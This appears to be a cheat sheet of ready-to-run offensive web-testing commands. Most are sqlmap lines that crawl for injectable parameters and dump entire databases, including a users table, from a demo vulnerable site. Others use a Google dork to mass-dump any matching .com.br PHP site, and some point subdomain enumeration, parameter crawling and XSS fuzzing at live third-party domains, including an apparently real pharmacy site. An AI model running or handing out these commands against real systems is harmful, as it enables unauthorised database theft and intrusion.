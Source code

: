     sqlmap -u "http://testphp.vulnweb.com/" --crawl 3 --batch --threads 5 --random-agent --risk 1 --level 1 -o sqlcrawl.txt
    
auto dumping databases

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dump-all --batch --threads 7 -o /tmp/sqldumldataauto.txt

finding vuln parameter using google dork

    sqlmap -g "site: .com.br inurl: .php?id=1" --dump-all --batch --threads 7 -o /tmp/sqldumldataauto.txt

Step by step dumping databases

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs --batch --threads 5 -o /tmp/sqldumpfulldatabase.txt
    
Step by step dumping databases

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --tables --batch --threads 5 -o /tmp/sqldumpfulltable.txt
    
Step by step dumping databases

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns --batch --threads 5 -o /tmp/sqlreadallcolumnsdata.txt
    
Step by step dumping databases

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users -C uname --dump --batch --threads 5 -o /tmp/sqldumpfullcolumns.txt

Login page brute-forcing

    sqlmap -u "http://testphp.vulnweb.com/login.php" --forms -o /tmp/sqlbruteForcelogin.txt
    

    sqlmap -u "http://testphp.vulnweb.com/userinfo.php" --data="uname=abd&pass=abc&login=submit" --dbs

<h1 align="center">Sub Domain finding automation</h1>

Sub Domain finding automation using assetfinder, httpx

    assetfinder -subs-only vulnweb.com | httpx -ip -random-agent -silent | tee /tmp/validsubDomains.txt

<h1 align="center">CMS Detector</h1>

auto Detecting

    cmseek -u https://wordpress.org --batch | tee '/tmp/cmsDetector.txt'

<h1 align="center">Gospider</h1>

Paramiter finding

    gospider -s "https://www.farmasilva.com.br" --no-redirect -o /tmp/gospider.txt

<h1 align="center">XSStrike, xss finder</h1>

xss finding

    xsstrike -u "https://www.farmasilva.com.br/search?search_query=query" -f /usr/share/wordlists/SecLists/Fuzzing/XSS/XSS-Bypass-Strings-BruteLogic.txt
